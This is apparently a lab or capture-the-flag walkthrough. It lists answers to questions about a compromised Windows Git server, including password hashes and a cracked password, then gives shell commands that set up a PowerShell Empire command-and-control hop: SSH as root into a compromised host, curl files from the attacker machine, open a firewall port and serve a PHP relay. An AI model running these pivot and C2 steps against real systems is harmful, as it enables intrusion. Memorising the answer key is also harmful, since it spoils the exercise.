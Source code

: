```markdown
11. What is the name of the cookie set in the POST request made on line 74 of the exploit? - csrftoken

12. What is the hostname for this target? - git-serv

13. What operating system is this target? - Windows

14. What user is the server running as? - nt authority\system

15. How many make it to the waiting listener? - 0

16. What is the Administrator password hash? - 37db630168e5f82aafa8461e05c6bbd1

17. What is the NTLM password hash for the user "Thomas"? - 02d90eda8f6b6b06c32d5f207831101f

18. What is Thomas' password? - i<3ruby
```

## Command and Control

```shell
sudo apt install powershell-empire starkiller

sudo powershell-empire server
#start empire server

powershell-empire client
#empire CLI client
#alternative to GUI starkiller

starkiller
#GUI

#create http listener and http_hop listener in starkiller
#create multi/launcher stager for http_hop listener

ssh root@10.200.81.200 -i id_rsa
#connect to compromised server

mkdir /tmp/hop-sv

cd /tmp/hop-sv

#in attacker machine, zip the http_hop files
cd /tmp/http_hop && sudo zip -r hop.zip *

sudo python3 -m http.server 80

#in root ssh session on compromised server
curl 10.50.82.104/hop.zip -o hop.zip

unzip hop.zip

ls
#we have the required files

firewall-cmd --zone=public --add-port 47202/tcp
#disable port 47202 for http_hop

php -S 0.0.0.0:47202 &>/dev/null &
#PHP server to serve files

ss -tulwn | grep 47202
```